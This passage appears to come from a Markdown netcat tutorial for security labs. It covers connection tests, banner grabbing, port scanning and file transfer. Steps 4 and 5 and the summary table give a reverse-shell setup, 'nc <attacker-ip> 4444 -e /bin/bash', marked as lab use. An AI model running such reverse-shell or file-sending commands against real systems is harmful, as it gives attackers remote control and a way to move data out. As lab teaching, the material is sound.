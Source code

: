 2. Test connection:
   ```bash
   nc -v 10.10.10.1 80
   ```

3. Try banner grabbing:
   ```bash
   GET / HTTP/1.1
   Host: test.local
   ```

4. (Lab) Set up listener for reverse shell:
   ```bash
   nc -lvp 4444
   ```

5. (Lab) Launch shell from target:
   ```bash
   nc <attacker-ip> 4444 -e /bin/bash
   ```

---

## ✅ Summary

| Command                              | Purpose                     |
|--------------------------------------|-----------------------------|
| `nc -zv <ip> 1-1000`                 | Scan ports                  |
| `nc -v <ip> <port>`                  | Test service availability   |
| `GET / HTTP/1.1` via `nc`            | Banner grab (if allowed)    |
| `nc -lvp 4444` + `-e /bin/bash`      | Reverse shell (lab only)    |
| `nc -lvp 4444 > file.txt`            | File receiver               |
| `nc <ip> 4444 < file.txt`            | File sender                 |

---

## 🧠 Final Tip

Netcat is simple but powerful. It teaches you **how networking works under the hood**. Use it for good, in labs, and document wisely.

---

Made with 💻 by Abin Shaji Thomas & 🐉 Kali GPT  
Tool repo: [CyberBible](https://github.com/YOUR-PRIVATE-REPO)

